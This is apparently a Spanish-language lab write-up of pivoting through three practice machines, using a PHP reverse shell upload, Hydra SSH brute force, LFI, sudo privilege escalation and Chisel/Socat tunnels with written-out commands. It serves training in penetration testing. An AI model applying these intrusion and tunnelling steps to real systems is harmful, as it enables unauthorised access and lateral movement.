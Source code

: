 Máquinas vulnerables:
![](../../../Images/Pasted%20image%2020240828085032.png)
Voy a empezar desde la máquina Upload e ir pivotando hasta la Trust para finalmente llegar a la Inclusion 

Escaneo de puertos máquina Upload:
![](../../../Images/Pasted%20image%2020240828085345.png)

Reviso qué contiene el puerto 80:
![](../../../Images/Pasted%20image%2020240828085417.png)
Tengo una subida de archivos

Subiré una RevShell en PHP:
![](../../../Images/Pasted%20image%2020240828085555.png)

Ahora haré fuzzing web con Gobuster para encontrar el directorio donde se subió mi archivo:
![](../../../Images/Pasted%20image%2020240828085650.png)
Tengo el directorio /uploads

Accedo a él:
![](../../../Images/Pasted%20image%2020240828085711.png)
Y acá está mi archivo

Me pongo a la escucha con NetCat y doy click en mi archivo:
![](../../../Images/Pasted%20image%2020240828085748.png)
Y recibo conexión, ahora estoy dentro de la máquina Upload

Tratamiento de la TTY
![](../../../Images/Pasted%20image%2020240828090000.png)
![](../../../Images/Pasted%20image%2020240828090020.png)

## ESCALADA DE PRIVILEGIOS - UPLOAD

Ejecuto sudo -l para ver el binario que puedo usar 
![](../../../Images/Pasted%20image%2020240828090133.png)
Puedo ser root con el binario Env

Miro en GTFOBins como puedo escalar con este binario:
![](../../../Images/Pasted%20image%2020240828090150.png)

Lo ejecuto:
![](../../../Images/Pasted%20image%2020240828090238.png)
Y ahora soy ROOT en la máquina Upload

Para comenzar a hacer el pivoting hacia la máquina Trust me pasaré Chisel y Socat a esta máquina Upload, levantaré con Python un servidor para pasarme estas herramientas:
![](../../../Images/Pasted%20image%2020240828090540.png)

Ahora ya que tengo Chisel en ambos lugares (la máquina Upload y mi kali), me pondré a la  escucha desde mi kali por el puerto 1234:
```
./chisel server --reverse -p 1234
```

Ahora le daré permisos de ejecución a Chisel desde la máquina para crear el túnel donde enviaré información:
```
./chisel client 192.168.1.232:1234 R:socks
```
![](../../../Images/Pasted%20image%2020240828090856.png)
Se creó un tunel por el puerto 1080 de mi localhost:
![](../../../Images/Pasted%20image%2020240828094351.png)

Ahora crearé un tunel con Socat desde la máquina Upload hacia mi kali para que  todo lo que pase por esta máquina me llegue a mi kali:
```
./socat TCP-LISTEN:1111,fork TCP:192.168.1.232:443
```
![](../../../Images/Pasted%20image%2020240828114625.png)

Ahora para no tener problemas al usar mis herramientas apuntando hacia esta máquina Trust editaré el archivo /etc/proxychains4.conf, le pondré el puerto por el cual corre mi túnel:
![](../../../Images/Pasted%20image%2020240815084716.png)

Ahora si, haré un escaneo de puertos de la máquina Trust, siempre colocando el comando Proxychains antes de cualquier herramienta que apunte hacia la máquina que pasa por el túnel:
```
proxychains nmap -p- -sT -n -vvv -Pn 20.20.20.3 2>/dev/null
```
![](../../../Images/Pasted%20image%2020240828095656.png)

Para ver que corre en el puerto 80 en Firefox voy a configuración de red y coloco lo siguiente:
![](../../../Images/Pasted%20image%2020240828094534.png)
Ahora si puedo ver que hay en el puerto 80:
![](../../../Images/Pasted%20image%2020240828095806.png)
Tengo una plantilla de Apache2

Haciendo fuzzing web  con Gobuster nos encontramos un /Secret.php:
```
proxychains gobuster dir -u http://20.20.20.3 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt,php.bak --proxy socks5://127.0.0.1:1080
```
![](../../../Images/Pasted%20image%2020240828095939.png)
Accedo a el:
![](../../../Images/Pasted%20image%2020240828100007.png)
Tengo un usuario llamado mario

Anteriormente en el escaneo de puertos vi que estaba abierto el puerto 22 (SSH) entonces le haré un ataque de fuerza bruta con Hydra hacia este usuario para encontrar la posible contraseña:
![](../../../Images/Pasted%20image%2020240828100303.png)
Me da como contraseña chocolate del usuario mario

Intrusión por el puerto 22 SSH de la máquina Trust:
![](../../../Images/Pasted%20image%2020240828100440.png)
Y listo, estoy dentro de la máquina Trust

## ESCALADA DE PRIVILEGIOS - TRUST

Ejecuto sudo -l para ver el binario que puedo usar:
![](../../../Images/Pasted%20image%2020240705195059%201.png)
Puedo usar el binario Vim para hacer la escalada a root

Miro en GTFOBins como puedo escalar con este binario:
![](../../../Images/Pasted%20image%2020240705203729.png)

Lo ejecuto:
![](../../../Images/Pasted%20image%2020240705195243%201.png)

Y listo ya soy ROOT en la máquina Trust

Para seguir el pivoting hacia la máquina Inclusion me pasaré Chisel y Socat a esta máquina Trust, levantaré con Python un servidor para pasarme estas herramientas desde Upload:
![](../../../Images/Pasted%20image%2020240828101926.png)

Ahora ya que tengo Socat en ambos lugares (la máquina Upload y la máquina Trust), me pondré a la  escucha desde la máquina Upload por el puerto 2222:
```
./socat TCP-LISTEN:2222,fork TCP:192.168.1.232:1234
```
![](../../../Images/Pasted%20image%2020240828120359.png)
Ahora le daré permisos de ejecución a Chisel desde la máquina Trust para crear el túnel donde enviaré información por el puerto  2222 hacia la máquina Upload y por el puerto 5555 hacia mi kali:
```
./chisel client 20.20.20.2:2222 R:5555:socks
```
![](../../../Images/Pasted%20image%2020240828120526.png)

Y ahora desde mi kali recibí el tunel del puerto 5555:
![](../../../Images/Pasted%20image%2020240828120703.png)
Editaré el archivo /etc/proxychains4.conf con este puerto, para poder tener conexión con esta máquina Inclusion 
![](../../../Images/Pasted%20image%2020240828120832.png)

Escaneo de puertos máquina inclusion:

Para ver que corre en el puerto 80 de esta última máquina en Firefox voy a configuración de red y coloco lo siguiente:
![](../../../Images/Pasted%20image%2020240828121457.png)

Veamos lo que hay en el puerto 80:
![](../../../Images/Pasted%20image%2020240828121552.png)
Tengo una plantilla de Apache2

Haré fuzzing web con Gobuster:
![](../../../Images/Pasted%20image%2020240828121747.png)
Tengo el directorio /shop

Accedo a él:
![](../../../Images/Pasted%20image%2020240828121820.png)
Y al final de la página me da una pista de que tiene una vulnerabilidad de LFI con el parámetro "archivo", lo usaré  para leer los usuarios de la carpeta /etc/passwd:
![](../../../Images/Pasted%20image%2020240828122539.png)
Tengo 2 usuarios seller y manchi haremos fuerza bruta con Hydra por el puerto 22 para encontrar la el usuario correcto y la contraseña de ese respectivo usuario:
![](../../../Images/Pasted%20image%2020240828122805.png)
El usuario es manchi y su contraseña es lovely

Intrusión por el puerto 22 SSH de la máquina Inclusion
![](../../../Images/Pasted%20image%2020240828122911.png)

## ESCALADA DE PRIVILEGIOS - INCLUSION

Recordando tenemos otro usuario llamado seller con la contraseña qwerty, por ende escalaremos a este usuario
![](../../../Images/Pasted%20image%2020240828172846.png)
Ya somos el usuario seller

Ejecuto sudo -l para ver el binario que puedo usar 
![](../../../Images/Pasted%20image%2020240828123740.png)
Puedo ser root con el binario Php

Miro en GTFOBins como puedo escalar con este binario:
![](../../../Images/Pasted%20image%2020240828123847.png)

Lo ejecuto:
![](../../../Images/Pasted%20image%2020240828124018.png)
Y listo ya soy ROOT en la ultima máquina del pivoting, la Inclusion

![](../../../Images/Pasted%20image%2020240831141100.png)
![](../../../Images/Pasted%20image%2020240831141109.png)
![](../../../Images/Pasted%20image%2020240831141114.png)
![](../../../Images/Pasted%20image%2020240831141119.png)

